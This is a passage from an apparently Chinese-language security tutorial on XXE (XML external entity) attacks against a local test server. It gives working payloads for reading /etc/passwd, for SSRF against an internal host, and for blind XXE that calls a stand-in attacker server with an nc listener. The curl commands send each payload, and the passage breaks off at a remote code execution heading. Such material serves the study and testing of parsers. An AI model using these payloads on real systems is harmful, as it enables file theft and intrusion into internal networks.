 #### 3.2.1 文件读取

1. 构造恶意XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

2. 发送请求：

```bash
curl -X POST http://localhost:8080 -d @payload.xml
```

#### 3.2.2 SSRF攻击

1. 构造恶意XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server/">
]>
<foo>&xxe;</foo>
```

2. 发送请求：

```bash
curl -X POST http://localhost:8080 -d @payload.xml
```

#### 3.2.3 盲XXE

1. 构造恶意XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker-server/">
]>
<foo>&xxe;</foo>
```

2. 发送请求：

```bash
curl -X POST http://localhost:8080 -d @payload.xml
```

3. 在攻击者服务器上监听请求：

```bash
nc -lvp 80
```

#### 3.2.4 远程代码执行

1. 构造恶意XML文档：

